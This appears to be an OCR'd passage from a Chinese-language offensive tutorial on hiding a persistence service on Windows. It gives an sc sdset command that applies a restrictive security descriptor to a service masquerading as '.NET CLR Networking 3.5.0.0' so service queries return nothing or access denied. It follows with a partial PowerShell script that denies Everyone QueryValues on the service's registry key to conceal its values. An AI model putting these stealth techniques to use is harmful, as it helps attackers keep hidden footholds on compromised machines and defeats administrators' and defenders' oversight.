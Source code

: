 ```
sc sdset ".NET CLR Networking 3.5.0.0" "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

然后通过sc与get-server查找服务均无结果：

```
sc query |findstr ".NET CLR Networking 3.5.0.0"
get-service | findstr ".NET CLR Networking 3.5.0.0"
```

在知道服务名的前提下查询会显示拒绝访问： `sc query ".NET CLR Networking 3.5.0.0"` ![image-20221110184608987](../资源文件/图片/202303251636550.png)

1. 但这样做有一个问题：在注册表中很容易看到异常value。 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\.NET CLR Networking 3.5.0.0` ![image-20221110184952435](../资源文件/图片/202303251636211.png) 我们可以通过修改注册表的DACL来拒绝对值的查询，达到隐藏异常值的效果。 这里给出一个通过powershell修改注册表项的访问权限的简单脚本： 将这个脚本保存为1.ps1

```
function Server-Sddl-Change{
[CmdletBinding()]
param
(
[parameter(Mandatory=$false)][String]$Name
)
$ROOT = "HKLM:\SYSTEM\CurrentControlSet\Services\"
$S = $ROOT+$NAME
$acl = Get-Acl $S
$acl.SetAccessRuleProtection($true, $false)
$person = [System.Security.Principal.NTAccount]"Everyone"
$access = [System.Security.AccessControl.RegistryRights]"QueryValues"
$inheritance = [System.Security.AccessControl.InheritanceFlags]"None"
$propagation = [System.Security.AccessControl.PropagationFlags]"None"
$type = [System.Security.AccessControl.AccessControlType]"Deny"
$rule = New-Object System.Security.AccessControl.RegistryAccessRule( `
$person,$access,$inheritance,$propagation,$type)
$acl.AddAccessRule($rule)
$person = [System.Security.Principal.NTAccount]"Everyone"
$access =
[System.Security.AccessControl.RegistryRights]"SetValue,CreateSubKey,EnumerateSu
bKeys,Notify,CreateLink,Delete,ReadPermissions,WriteKey,ExecuteKey,ReadKey,Chang
ePermissions,TakeOwnership"
$inheritance = [System.Security.AccessControl.InheritanceFlags]"None"
$propagation = [System.Security.AccessControl.PropagationFlags]"None"
```